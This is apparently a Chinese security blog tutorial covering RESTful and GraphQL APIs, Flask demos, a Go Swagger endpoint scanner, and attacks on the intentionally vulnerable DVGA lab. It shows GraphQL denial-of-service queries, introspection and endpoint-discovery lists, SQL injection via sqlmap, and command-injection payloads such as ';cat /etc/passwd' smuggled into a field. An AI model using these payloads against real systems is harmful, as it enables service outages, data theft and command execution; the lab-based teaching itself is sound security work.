# GraphQL 与 RESTful：WebAPI 时代的攻击面 - 先知社区

GraphQL 与 RESTful：WebAPI 时代的攻击面

- - -

最近对 RESTful、graphQL 攻击很感兴趣，所以从基本的使用到漏洞利用整体整理一下，也从中发掘了许多新知识点。

- - -

# RESTful API

RESTful 是一种基于 REST（Representational State Transfer，表现层状态转换）的架构风格，用于设计网络应用程序的交互和通信。它是一种利用 HTTP 协议的特性来构建 Web 服务的方法，强调资源的表现层和状态转换。在 RESTful 架构中，所有的操作都围绕着资源（Resources），并使用标准的 HTTP 方法来进行交互。

我们通过 python Flask 创建一个简单的 RESTful API

## Install Flask/Flask-RESTful

```bash
pip install flask-restful
```

## Init Flask/Flask-RESTful

一个 Python 文件，例如`api.py`，然后编写以下代码来初始化 Flask 应用和 API

```bash
from flask import Flask
from flask_restful import Api,Resource

app = Flask(__name__)
api = Api(app)
```

其中从 flask\_restful 导入了`Api`类和`Resource`类

-   Api 类用于创建 RESTful API
-   Resource 类是 RESTful API 资源的基类

`Flask(__name__)`以当前模块名称创建了一个新的 Flask 应用程序实例

`Api(app)`创建一个新的`Api`实例并将其与`app`应用程序关联

## 定义资源

在 RESTful Api 中，资源是指可以通过 URI 寻址的任何事物。资源可以是实体对象，例如书籍或产品，也可以是抽象概念，例如用户或订单

在 Flask-RESTful 中，每个资源都是通过继承`Resource`类并定义相应的方法来实现的。

例如，创建一个`Item`资源：

```bash
class Item(Resource):
  def get(self,name):
    return {"item": name}
```

上面这段代码就是通过继承`Resource`基类定义一个`Item`资源类

`get()`方法用于处理对资源的 GET 请求 `name`参数是资源的名称

当客户端向 API 发起 GET 请求时，`get()`方法将返回一个 JSON 对象，其中包含键`item`和值`name`

## 添加资源到 API

```bash
api.add_resource(Item, '/item/<string:name>')
```

`add_resource`方法用于将资源类添加到 API 中，并指定其 URL 模式

-   `/item/`表示资源的根路径
-   `<string:name>`表示一个动态参数，可以用任何字符串进行替换

## 运行应用

在文件末尾添加以下代码来运行应用

```bash
if __name__ == '__main__':
  app.run(debug=True)
```

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240218103348632.png)

## 测试

访问[http://127.0.0.1:5000/item/yam](http://127.0.0.1:5000/item/yam) ，发现页面返回了一个 json 对象

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240218103423836.png)

这只是一个 RESTful Api 的简易 demo，它可以实现更多的资源和复杂的逻辑，比如与数据库的交互、请求解析、数据验证等。

REST API 的使用范围很广，像 twitter、facebook、github 都有使用

twitter 的开发文档中就有这一句话：

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240218105216935.png)

# Swagger ui - RESTful 的可视化

-   Swagger UI 是一款用来展示和测试 RESTful API 的工具。它可以根据 OpenAPI 规范（以前称为 Swagger 规范）自动生成 API 文档，并提供一个交互式界面来测试 API。

在我们原有的代码上，只需引入 Swagger 方法，完成初始化即可，Swagger 会根据注释自动生成

```bash
from flask import Flask
from flask_restful import Api, Resource
from flasgger import Swagger


app = Flask(__name__)
api = Api(app)

swagger = Swagger(app)
class Item(Resource):
    def get(self, name):
        """
        一个获取项目的示例
        ---
        tags:
          - Flask RESTful 示例
        parameters:
          - name: name
            in: path
            type: string
            required: true
            description: 项目的名称
        responses:
          200:
            description: 一个项目对象
            schema:
              id: Item
              properties:
                name:
                  type: string
                  description: 项目的名称
                  default: '示例项目'
        """
        return {"item": name}

api.add_resource(Item, "/item/<string:name>")

if __name__ == "__main__":
    app.run(debug=True)
```

上述代码中的注释是采用 YAML 语法进行的编写，具体方式位于[https://swagger.io/docs/specification/basic-structure/](https://swagger.io/docs/specification/basic-structure/)

运行项目后访问/apidocs 即可 在这个页面中我们可以对 api 进行测试

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240218141600384.png)

## 未授权访问漏洞

在这里我们不做赘述 可以将这位师傅文中提到的 swagger 泄露路径添加到目录扫描工具中[https://xz.aliyun.com/t/12582](https://xz.aliyun.com/t/12582)

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240218145432061.png)

Swagger 的占有量还是挺大的，但是大多数存在 swagger-ui 未授权访问的站点暴露的接口都很多

所以我们一般还是使用自动化的方式渗透 [https://github.com/godzeo/swagger-scan](https://github.com/godzeo/swagger-scan)

将 json 地址作为工具-u 参数的输入 工具就可以自动拼接 api 地址后发送给下游代理（xray、burpsuite 等）进行扫描

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240218151138140.png)

但是在这个工具的使用过程中发现该工具拼接后的 url 端口后有两个斜杠`/`

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240218152319313.png)

检查了一下脚本的 url 拼接逻辑，从 swagger.json 中提取 basePath 后直接与 url 拼接了 所以多出了斜杠 导致响应 404

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240218162610554.png)

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240218162530260.png)

并且这个脚本的逻辑写得比较臃肿，于是使用 go 重构了一下

```bash
package main

import (
    "bytes"
    "encoding/json"
    "flag"
    "fmt"
    "io/ioutil"
    "net/http"
    "net/url"
    "regexp"
    "strings"
)

type Info struct {
    Title       string `json:"title"`
    Description string `json:"description"`
    Version     string `json:"version"`
}

type Operation struct {
    Summary     string                   `json:"summary"`
    Description string                   `json:"description"`
    Parameters  []map[string]interface{} `json:"parameters"`
}

type PathItem struct {
    Get    *Operation `json:"get"`
    Post   *Operation `json:"post"`
    Put    *Operation `json:"put"`
    Delete *Operation `json:"delete"`
}

type SwaggerDocument struct {
    Swagger  string              `json:"swagger"`
    Info     Info                `json:"info"`
    Host     string              `json:"host"`
    BasePath string              `json:"basePath"`
    Paths    map[string]PathItem `json:"paths"`
}

var httpClient *http.Client

func initHttpClient(proxyUrl string) {
    proxyURL, err := url.Parse(proxyUrl)
    if err != nil {
        fmt.Println("Error parsing proxy URL:", err)
        return
    }
    httpClient = &http.Client{
        Transport: &http.Transport{
            Proxy: http.ProxyURL(proxyURL),
        },
    }
}

func fetchSwaggerDocument(swaggerUrl string) (*SwaggerDocument, error) {
    resp, err := httpClient.Get(swaggerUrl)
    if err != nil {
        return nil, err
    }
    defer resp.Body.Close()

    body, err := ioutil.ReadAll(resp.Body)
    if err != nil {
        return nil, err
    }

    var doc SwaggerDocument
    if err := json.Unmarshal(body, &doc); err != nil {
        return nil, err
    }

    return &doc, nil
}

func sendRequest(method, url string, body []byte) {
    var req *http.Request
    var err error

    if method == "get" {
        req, err = http.NewRequest(http.MethodGet, url, nil)
    } else { // Simplified: treating any non-GET as POST
        req, err = http.NewRequest(http.MethodPost, url, bytes.NewBuffer(body))
        req.Header.Set("Content-Type", "application/json")
    }

    if err != nil {
        fmt.Println("Creating request failed:", err)
        return
    }

    resp, err := httpClient.Do(req)
    if err != nil {
        fmt.Println("Request failed:", err)
        return
    }
    defer resp.Body.Close()

    response, err := ioutil.ReadAll(resp.Body)
    if err != nil {
        fmt.Println("Reading response body failed:", err)
        return
    }

    fmt.Printf("Response from %s: %s\n", url, string(response))
}

func main() {
    var swaggerUrl, proxyUrl string
    flag.StringVar(&swaggerUrl, "url", "", "URL to the Swagger JSON document")
    flag.StringVar(&proxyUrl, "proxy", "http://127.0.0.1:7777", "Proxy URL")
    flag.Parse()

    if swaggerUrl == "" {
        fmt.Println("URL to the Swagger JSON document is required.")
        return
    }

    initHttpClient(proxyUrl)

    doc, err := fetchSwaggerDocument(swaggerUrl)
    if err != nil {
        fmt.Printf("Failed to fetch Swagger document: %v\n", err)
        return
    }

    baseURL := strings.TrimRight(swaggerUrl, "swagger.json")
    baseURL = strings.TrimRight(baseURL, "/")

    for path, item := range doc.Paths {
        fullURL := joinURL(baseURL, doc.BasePath, path) // 使用 joinURL 函数处理 URL 拼接
        if item.Get != nil {
            fmt.Printf("Sending GET request to %s\n", fullURL)
            sendRequest("get", fullURL, nil)
        }
        if item.Post != nil {
            fmt.Printf("Sending POST request to %s\n", fullURL)
            sendRequest("post", fullURL, []byte("{}")) // 假设 POST 请求需要一个空的 JSON 对象作为请求体
        }
    }
}

// joinURL 负责正确地拼接 URL 的各个部分

func joinURL(baseURL, basePath, path string) string {
    // 确保 baseURL 不以斜杠结尾
    baseURL = strings.TrimRight(baseURL, "/")

    // 如果 basePath 是根路径（"/"），则直接移除，避免在最终URL中出现双斜杠
    if basePath == "/" {
        basePath = ""
    }

    // 确保 basePath 不以斜杠开始和结尾
    basePath = strings.Trim(basePath, "/")

    // 确保 path 不以斜杠开始
    path = strings.TrimLeft(path, "/")

    // 使用 fmt.Sprintf 按顺序拼接字符串，中间确保只有一个斜杠
    fullURL := fmt.Sprintf("%s/%s/%s", baseURL, basePath, path)

    // 清理结果中可能出现的双斜杠（除了 "http://" 和 "https://" 后的双斜杠）
    re := regexp.MustCompile(`([^:])//+`)
    fullURL = re.ReplaceAllString(fullURL, "$1/")

    return fullURL
}
```

目前只实现了提取 api 拼接 url，根据 method 发起请求，将下游代理指向 xray（写死了）

这个轮子会慢慢完善再开源到 github

# GraphQL

GraphQL 是一种由 Facebook 开发并于 2015 年公开发布的数据查询和操作语言，以及相应的运行时环境，用于处理这些查询。GraphQL 提供了一种更高效、强大和灵活的替代方案，以对标传统的 RESTful API。它允许客户端精确地指定它们需要哪些数据，而不必依赖由服务器预定义的端点返回额外的信息。

## Install Graphql/Flask\_graphql

```bash
import graphql
import flask_graphql
```

## schema

在 GraphQL 中，schema 定义了 API 中可以查询的数据类型、关系以及如何通过查询和变更（mutations）来操作这些数据。简而言之，schema 是 GraphQL 服务的核心，它描述了客户端可以如何与 API 进行交互。

GraphQL Schema 的主要组成部分：

1.  **类型（Types）**：
    -   **对象类型（Object Types）**：定义了一个数据结构，包含一组字段，每个字段都有自己的类型，这些类型可以是标量类型、枚举类型、其他对象类型等。
    -   **标量类型（Scalar Types）**：GraphQL 的基础数据类型，如`Int`、`Float`、`String`、`Boolean`、`ID`等。
    -   **枚举类型（Enum Types）**：定义了一个字段可能的固定集合。
2.  **查询（Query）**：
    -   查询类型是 GraphQL schema 中最主要的部分之一，它定义了客户端如何进行数据读取操作。
3.  **变更（Mutation）**：
    -   变更类型定义了所有可用于数据修改的操作。这包括添加、更新或删除数据等操作。
4.  **订阅（Subscription）**：
    -   订阅类型允许客户端订阅特定事件，当这些事件发生时，实时接收数据更新。

## Query schema

```bash
import graphene

class Query(graphene.ObjectType):
    hello = graphene.String(description='A typical hello world')

    def resolve_hello(self, info):
        return 'World'
schema = graphene.Schema(query=Query)

from flask import Flask
from flask_graphql import GraphQLView

app = Flask(__name__)

app.add_url_rule(
    '/graphql',
    view_func=GraphQLView.as_view(
        'graphql',
        schema=schema,
        graphiql=True
    )
)

if __name__ == '__main__':
    app.run()
```

Schema 定义

-   **`graphene.Schema(query=Query)`**：这里定义了一个 GraphQL schema，它指定了可用于查询的根类型。在这个例子中，`Query`是根查询类型。

类型（Types）

-   **`class Query(graphene.ObjectType)`**：定义了一个对象类型`Query`，它是 GraphQL schema 的一部分。`ObjectType`是 Graphene 中用来定义对象类型的类，这些对象类型对应于 GraphQL schema 中的类型。

查询（Query）

-   **`hello = graphene.String(description='A typical hello world')`**：在`Query`类型中定义了一个字段`hello`，其类型为`String`。这意味着当客户端发起查询`hello`时，将返回一个字符串类型的数据。字段上的`description`属性为这个字段提供了说明文档。

解析器（Resolver）

-   **`def resolve_hello(self, info): return 'World'`**：这是一个解析器函数，用于解析`hello`字段。当`hello`字段被查询时，此函数被调用来获取字段的实际数据。在这个例子中，无论何时查询`hello`，它总是返回字符串`"World"`。

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240218200500009.png)

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240218200658267.png)

可以注意到 无论我们是否使用`query`，都会返回预期的内容，这是因为代码中我们只配置了`query`的 schema，如果使用其他的 schema 则会返回报错

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240218200846519.png)

## Demo

考虑实现一个简单的博客系统，我们可能会定义如下的 GraphQL schema

```bash
type Query {
  posts: [Post]
  post(id: ID!): Post
}

type Mutation {
  createPost(title: String!, content: String!): Post
  deletePost(id: ID!): Post
}

type Subscription {
  postCreated: Post
}

type Post {
  id: ID!
  title: String!
  content: String!
  author: User!
}

type User {
  id: ID!
  name: String!
  posts: [Post]
}
```

在这个例子中：

-   定义了`Post`和`User`两个对象类型，以及如何通过查询获取这些对象的信息。
-   通过`Mutation`定义了如何创建和删除`Post`。
-   通过`Subscription`定义了客户端如何订阅新创建的`Post`事件。

## Blog

### 定义 Graphql schema

```bash
import graphene

class Post(graphene.ObjectType):
    id = graphene.ID()
    title = graphene.String()
    content = graphene.String()
    author = graphene.String() 

class Query(graphene.ObjectType):
    posts = graphene.List(Post)
    post = graphene.Field(Post, id=graphene.ID(required=True))

    def resolve_posts(self, info):
        return [Post(id="1", title="Hello World", content="Content here", author="Author Name")]

    def resolve_post(self, info, id):
        return Post(id=id, title="Specific Post", content="Specific content", author="Specific Author")

class CreatePost(graphene.Mutation):
    class Arguments:
        title = graphene.String(required=True)
        content = graphene.String(required=True)
        author = graphene.String(required=True)

    post = graphene.Field(lambda: Post)

    def mutate(self, info, title, content, author):
        post = Post(title=title, content=content, author=author)
        return CreatePost(post=post)

class Mutation(graphene.ObjectType):
    create_post = CreatePost.Field()

schema = graphene.Schema(query=Query, mutation=Mutation)
```

### 集成到 Flask 应用

```bash
from flask import Flask
from flask_graphql import GraphQLView

app = Flask(__name__)

app.add_url_rule(
    '/graphql',
    view_func=GraphQLView.as_view(
        'graphql',
        schema=schema,
        graphiql=True,
    )
)

if __name__ == '__main__':
    app.run(debug=True)
```

### 测试查询和变更

#### 查询所有帖子

```bash
{
  posts {
    id
    title
    content
    author
  }
}
```

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240218201447667.png)

我们可以发现 服务端的响应取决于客户端到底要什么 也就是说 GraphQL 提供的 API 不像其他风格的 API 让服务端全量响应然后做数据提取

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240218201632471.png)

#### 新增帖子

```bash
mutation {
  createPost(title: "New Post", content: "Content of the new post", author: "Author") {
    post {
      id
      title
      content
      author
    }
  }
}
```

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240218201915606.png)

# RESTful 与 GraphQL 的区别

REST API 与 GraphQL 的请求方式比较

REST API:

通常需要多个 API 来实现不同功能，每个 API 代表一种资源类型。例如：

[http://www.test.com/users/{id}：获取用户信息](http://www.test.com/users/%7Bid%7D%EF%BC%9A%E8%8E%B7%E5%8F%96%E7%94%A8%E6%88%B7%E4%BF%A1%E6%81%AF)

[http://www.test.com/users/list：获取所有用户的信息](http://www.test.com/users/list%EF%BC%9A%E8%8E%B7%E5%8F%96%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7%E7%9A%84%E4%BF%A1%E6%81%AF)

需要维护多个 API，增加了开发和维护成本。

GraphQL:

只需要一个 API 来满足所有需求，例如：[http://www.test.com/graphql](http://www.test.com/graphql)

通过不同的查询语句来获取不同类型的数据，无需维护多个 API。

提高了开发效率，降低了维护成本。

# GraphQL 攻击

## DVGA 部署

项目地址[https://github.com/dolevf/Damn-Vulnerable-GraphQL-Application.git](https://github.com/dolevf/Damn-Vulnerable-GraphQL-Application.git)

```bash
➜  docker pull dolevf/dvga
Using default tag: latest
latest: Pulling from dolevf/dvga
a0d0a0d46f8b: Pull complete
c11246b421be: Pull complete
c5f7759615a9: Pull complete
6dc4dde3f226: Pull complete
f2db6ae633c1: Pull complete
c01690dd28cf: Pull complete
e24d20d5a559: Pull complete
0e6b126b8f7b: Pull complete
948402e4f357: Pull complete
abec193c43b6: Pull complete
77bef8984a62: Pull complete
3112eaaa00ad: Pull complete
94bb4fd57215: Pull complete
547d86cd0b6d: Pull complete
2f37b957421a: Pull complete
7f6c118361aa: Pull complete
6092f19f6350: Pull complete
be9e711d288f: Pull complete
Digest: sha256:7cbad19a09c006e29ceaf5a5389233110bc4c4f50be03432acabc5317ca14914
Status: Downloaded newer image for dolevf/dvga:latest
docker.io/dolevf/dvga:latest
➜  RESTful 攻击
docker run -t -p 5013:5013 -e WEB_HOST=0.0.0.0 dolevf/dvga

WARNING: The requested image's platform (linux/amd64) does not match the detected host platform (linux/arm64/v8) and no specific platform was requested
544a381d29be3d00e0d857f7f8f67318c9b3a310d37dd3df69bc3b3a406ccb1a
```

访问 5013 端口即可

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240218210804090.png)

在攻击之前，推荐安装这个 chrome 插件，如果使用 burpsuite 这种发包工具测试的话，json 的格式化比较麻烦，这个工具可以帮我们自动 json 格式化

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240218214223369.png)

## DoS: Batch query attack

批量查询攻击

进行一次 systemUpdate 查询所需时间 20210ms

```bash
{"query":"query {\n systemUpdate\n}","variables":[]}
```

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240218211812281.png)

查询两次 妈的服务器性能不好直接打崩了

```bash
[{"query":"query {\n systemUpdate\n}","variables":[]},{"query":"query {\n systemUpdate\n}","variables":[]}]
```

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240218212157440.png)

实战中，我们测试到资源密集型的 Graphql 查询，就可以使用这种方法来证明 DOS

## DoS: Deep recursion query attack

深度递归查询攻击

不敢测试了 等下服务全崩了

```bash
https://github.com/dolevf/Black-Hat-GraphQL/blob/master/ch05/unsafe-circular-query.graphql
```

post data 大概长这样：

```bash
query {
  pastes {
    owner {
      paste {
        edges {
          node {
            owner {
              paste {
                edges {
                  node {
                    owner {
                      paste {
                        edges {
                          node {
                            owner {
                              id
                            }
                          }
                        }
                      }
                    }
                  }
                }
              }
            }
          }
        }
      }
    }
  }
}
```

## DoS: Field duplication attack

重复转储攻击

对 GraphQL 服务器进行 DoS 攻击的一种简单方法是简单地复制查询中的字段

这其实并不是这个靶场中要说明的漏洞 在正常的 Graphql 查询中我们就可以简单地复制查询字段进行测试

## DoS: Aliases based attack

Graphql 不会在同一次请求中处理相同键名两次，这时候就可以通过别名来进行攻击

```bash
q0:systemUpdate
q1:systemUpdate
q2:systemUpdate
q3:systemUpdate
q4:systemUpdate
q5:systemUpdate
q6:systemUpdate
q7:systemUpdate
q8:systemUpdate
q9:systemUpdate
```

## DoS: Circular fragment

```bash
query CircularFragment {
    pastes {
        ...Start
    }
}

fragment End on PasteObject {
        ...Start
}
```

这种攻击方式回使 DVGA 立即崩溃

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240218214046946.png)

## 信息泄露：GraphQL introspection

introspection(内省) 是指 GraphQL 服务器提供的一种机制，允许客户端查询服务器的 schema 信息。这包括：

-   所有可用的类型
    
-   每个类型的字段和参数
    
-   每个字段的类型和描述
    
-   支持的指令
    

```bash
query {
    __schema {
        queryType{
        name
        }
        mutationType {
        name
        }
        subscriptionType {
        name
        }
    }
}
```

内省查询会无意泄露一些敏感数据，不过在这个靶场中没有放置太多数据

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240218214836493.png)

这里有一个稍微详细一点的列表，列出了模式中所有可用查询、修改和订阅的名称：

```bash
query {
  __schema {
    queryType {
      name
      kind
      fields {
        name
      }
    }
    mutationType {
      name
      kind
      fields {
        name
      }
    }
    subscriptionType {
      name
      kind
      fields {
        name
      }
    }
  }
}
```

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240218215035786.png)

查询结果可以通过这个工具可视化：

[https://github.com/graphql-kit/graphql-voyager](https://github.com/graphql-kit/graphql-voyager)

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240218215610399.png)

## 信息泄露：GraphQL interface

GraphQL 的 Endpoint 中会泄露一些敏感信息，具体的 checklist 如下：

```bash
"/",
"/graphql",
"/graphiql",
"/v1/graphql",
"/v2/graphql",
"/v3/graphql",
"/graphql/console",
"/v1/graphql/console",
"/v2/graphql/console",
"/v3/graphql/console",
"/v1/graphiql",
"/v2/graphiql",
"/v3/graphiql",
"/playground",
"/query",
"/explorer",
"/altair",
```

## 信息泄露：GraphQL field suggestions

Graphql 支持字段建议，从建议的字段进行查询也能泄露一些敏感信息

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240218220117247.png)

## 信息泄露：SSRF

目标站点的 ssrf 在对外发起请求时也可能携带敏感数据

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240218220343401.png)

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240218220504676.png)

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240218220322705.png)

## SQL 注入

先进行一个基本的查询 查看结果

```bash
query {
    pastes(public:true){
        title
        content
        public
    }
}
```

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240218220806506.png)

通过 filter 过滤器 在过滤值中插入单引号 发现报错

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240218221103463.png)

把包代理到 yakit，添加标记，sqlmap 跑一下

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240218221600730.png)

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240218221655527.png)

## 命令执行 1

与 Owasp top10 中的 RCE 一样 我们可以通过`;`、`||`、`&&` 等方式进行命令拼接执行

```bash
mutation ImportPaste {
    importPaste(
        host: "pastebin.com"
        path: ";cat /etc/passwd"
    scheme: "https"
        port: 443
    ){
        result
    }
}
```

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240218222412737.png)

## 命令执行 2

```bash
query SystemDiagnostics {
    SystemDiagnostics(username: "admin",
        password: "changeme",cmd:"uname -a")
}
```

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240218222723610.png)

...夜深了先写到这了，麦当劳也正好到了
